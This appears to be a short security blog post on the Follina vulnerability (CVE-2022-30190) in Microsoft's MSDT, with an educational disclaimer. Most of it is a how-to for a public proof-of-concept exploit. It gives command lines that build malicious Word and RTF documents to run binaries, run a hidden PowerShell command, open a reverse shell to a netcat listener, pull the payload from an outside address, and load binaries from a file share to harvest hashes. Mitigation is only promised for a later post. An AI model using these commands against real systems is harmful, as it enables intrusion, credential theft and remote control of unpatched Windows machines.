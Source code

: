 ```yaml
---
title: "Follina Vulnerability"
date: 2022-08-20T08:06:25+06:00
description: New Vulnerability Exploited in the Wild
menu:
  sidebar:
    name: Follina
    identifier: follina-vulneraility
    parent: vulnerabilities
    weight: 30
author:
  name: Vincent M
  image: /images/author/sila.png
tags: ["Basic", "InfoSec"]
categories: ["InfoSec"]
---
```

### CVE-2022-30190 Microsoft MSDT Vulnerability

A new vulnerability has been discovered in Windows that is critical and can be exploited by attackers.

The vulnerability is called “Follina”, and it affects all versions of Windows from Vista to Windows 10.

This vulnerability is known to have been exploited in the wild, but Microsoft has already released a patch for this vulnerability.

I will be going into an in depth how to guide on how to Exploit the Flaw in my next post to showcase how easy it is for attackers out there.

I will also provide measures of mitigating it with the simplest being updating your windows OS as the vulnerability has been patched

DISCLAIMER: All Information covered in my posts are for Educational purposes ONLY.

### POC

Proof of concept code has been hosted on github. Clone the repo below

>https://github.com/JohnHammond/msdt-follina.git

This POC attacks MSDT using a Microsoft Word doc as a delivery mechanism to stage a payload. In this case the payload is calc

> USAGE
  usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

> options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)

Running the following command generates a word document with reverse shell to a nectat listener on port 9001

> python3 follina.py -r 9001


Different options can be passed to the code for a number of scenario attacks

> Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

> On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

> Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

> Execute an arbitrary powershell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

> Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

> Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
